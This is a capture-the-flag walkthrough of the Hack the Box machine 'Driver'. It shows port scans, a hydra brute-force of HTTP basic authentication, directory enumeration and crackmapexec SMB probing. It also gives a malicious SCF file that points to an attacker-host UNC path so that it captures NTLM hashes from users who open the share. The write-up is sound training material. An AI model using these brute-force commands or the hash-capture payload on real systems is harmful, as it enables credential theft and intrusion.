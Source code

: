 # Hack the Box - Driver

```CSS
rustscan -a 10.10.11.106 -r 0-65535 --ulimit 5000
```
```CSS
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.106:80
Open 10.10.11.106:135
Open 10.10.11.106:445
Open 10.10.11.106:5985
[~] Starting Script(s)
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 12:05 IST
Initiating Ping Scan at 12:05
Scanning 10.10.11.106 [2 ports]
Completed Ping Scan at 12:05, 0.15s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:05
Completed Parallel DNS resolution of 1 host. at 12:05, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 3, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 12:05
Scanning 10.10.11.106 [4 ports]
Discovered open port 80/tcp on 10.10.11.106
Discovered open port 135/tcp on 10.10.11.106
Discovered open port 445/tcp on 10.10.11.106
Discovered open port 5985/tcp on 10.10.11.106
Completed Connect Scan at 12:05, 0.15s elapsed (4 total ports)
Nmap scan report for 10.10.11.106
Host is up, received syn-ack (0.15s latency).
Scanned at 2023-09-17 12:05:49 IST for 0s

PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack
135/tcp  open  msrpc        syn-ack
445/tcp  open  microsoft-ds syn-ack
5985/tcp open  wsman        syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds
```

```CSS
nmap -sC -sV 10.10.11.106 -p 80,135,445,5985
```
```CSS
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 12:28 IST
Nmap scan report for 10.10.11.106
Host is up (0.15s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2023-09-17T13:58:28
|_  start_date: 2023-09-17T13:30:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.67 seconds
```

HTTP:80
```HTTP
http://10.10.11.106/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/fb3fbdf9-f765-4378-b4c7-304bf9e4b572)

Brute-force Basic HTTP Authentication
```CSS
hydra -l admin -P ~/Wordlists/passwords-common.txt 10.10.11.106 http-get
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/34d7e7e1-12c3-4e23-80f7-54485d90f407)

Login successful using credentials: `admin:admin`
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c9faf283-3920-4f1a-b18d-f986b8327a7f)

Authenticated Directories and Files
```CSS
feroxbuster -u http://10.10.11.106 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php -H 'Authorization: Basic YWRtaW46YWRtaW4=' -s 200 -n
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c04eb4a7-1cee-4c60-ad33-f2f0d5a19821)

Firmware Update
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/29efdec0-7744-4955-a5ea-1e2cdedc0d10)

SMB File Upload
- This [blog](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) suggests that by crafting a malicious SCF file and placing it somewhere in network shares, we can automatically capture a user's NTLM password hashes when they access the share.

Contents of the `payload.scf` file.
```CSS
[Shell]
Command=2
IconFile=\\10.10.14.14\tools\responder.ico
[Taskbar]
Command=ToggleDesktop
```

Upload File
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/67073226-d33c-4442-8199-8c489f76d602)



SMB Enumeration
```CSS
crackmapexec smb 10.10.11.106 -u '' -p '' --shares

SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\: STATUS_ACCESS_DENIED 
SMB         10.10.11.106    445    DRIVER           [-] Error enumerating shares: Error occurs while reading from remote(104)
```

```CSS
crackmapexec smb 10.10.11.106 -u 'anonymous' -p '' --shares

SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\anonymous: STATUS_LOGON_FAILURE 
```
